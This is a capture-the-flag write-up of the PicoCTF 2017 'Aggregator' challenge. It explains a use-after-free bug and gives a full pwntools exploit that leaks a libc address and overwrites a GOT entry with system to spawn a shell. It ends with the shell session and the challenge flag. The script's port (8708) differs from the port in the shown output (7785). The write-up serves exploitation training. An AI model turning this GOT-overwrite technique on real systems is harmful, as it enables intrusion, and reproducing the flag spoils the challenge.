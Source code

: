 # PicoCTF_2017: Aggregator

**Category:** Binary
**Points:** 190
**Description:**

I wrote a program to help me synthesize my log files. You can edit the log files to add annotations that will print out aggregated information. Because the original program that outputs the logs was a bit faulty, I also included the ability to clear a single day of logs.  
Find my aggregator running on shell2017.picoctf.com:7785. [aggregator.c](https://webshell2017.picoctf.com/static/2745e04028ecf1c8ae15c70bb085f5e6/aggregator.c)  [aggregator](https://webshell2017.picoctf.com/static/2745e04028ecf1c8ae15c70bb085f5e6/aggregator)

**Hint:**

Does it look like there is a stack vulnerability?

## Write-up

In my opinion the main difficulty in this challenge was to read these 350 lines of code. The vulnerability was rather an obvious one. Very often if the application allows to remove data (and in this challenge it's even mentioned in description), there is  `use-after-free`  flaw.

When we add some value to database and then remove it, the memory will be freed, but the pointer in  `D->table[offset]`won't be reset, so we can still use this data. Our buffer is also stored on heap, so we can overwrite old content just by sending any string. Then we can use aggregate function to read some pointers from  `.got.plt`.

``` text
$ r2 /lib/x86_64-linux-gnu/libc.so.6
[0x00021c50]> ?v sym.free
0x7c600
[0x00021c50]> ?v sym.system
0x41490

```

With this knowledge we can easily calculate  `system`  address and now we only have to write it to  `.got.plt`. We add another value to database and immediately remove it. Then we overwrite the memory with fake  `data_table_chain`  using the vulnerability. We set  `*data`  pointer to  `strlen@got.plt`  and then add next value to database (`system`  address).

```python
#!/usr/bin/env python2

from pwn import *

from struct import pack,unpack

FREE_GOT_PLT = 0x601EF0

STRLEN_GOT_PLT = 0x601F00

FREE_OFFSET = 0x7c600

SYSTEM_OFFSET = 0x41490

r = remote("shell2017.picoctf.com", 8708)

r.send("09-24-2018 0\n")

r.send("~09-24-2018\n")

payload = pack("<Q",FREE_GOT_PLT)+pack("<Q",24)+pack("<Q",2)+pack("<Q",1)+pack("<Q",0)

r.send(payload+"\n")

r.recv()

r.send("ax 09-2018\n")

free_libc = int(r.recv().splitlines()[-1])

libc_base = free_libc-FREE_OFFSET

system_libc = libc_base+SYSTEM_OFFSET

r.send("09-25-2018 0\n")

r.send("~09-25-2018\n")

payload = pack("<Q",STRLEN_GOT_PLT)+pack("<Q",25)+pack("<Q",2)+pack("<Q",0)+pack("<Q",0)

r.send(payload+"\n")

r.send("09-25-2018 %d\n"%system_libc)

r.interactive()
```
```text
$ python solve.py 
[+] Opening connection to shell2017.picoctf.com on port 7785: Done
[*] Switching to interactive mode
$ ls
aggregator
flag.txt
xinetd_wrapper.sh
$ cat flag.txt
a65b3f946c058f6dbec3d14d8449a468
```
Flag : `a65b3f946c058f6dbec3d14d8449a468`

Thanks [BOAKGP](https://github.com/BOAKGP/CTF-Writeups/tree/master/PicoCTF%202017/Level%204/Binary%20Exploitation/Aggregator)
<!--stackedit_data:
eyJoaXN0b3J5IjpbMjEyNjE2MTM5NywzNjUyNDI4Ml19
-->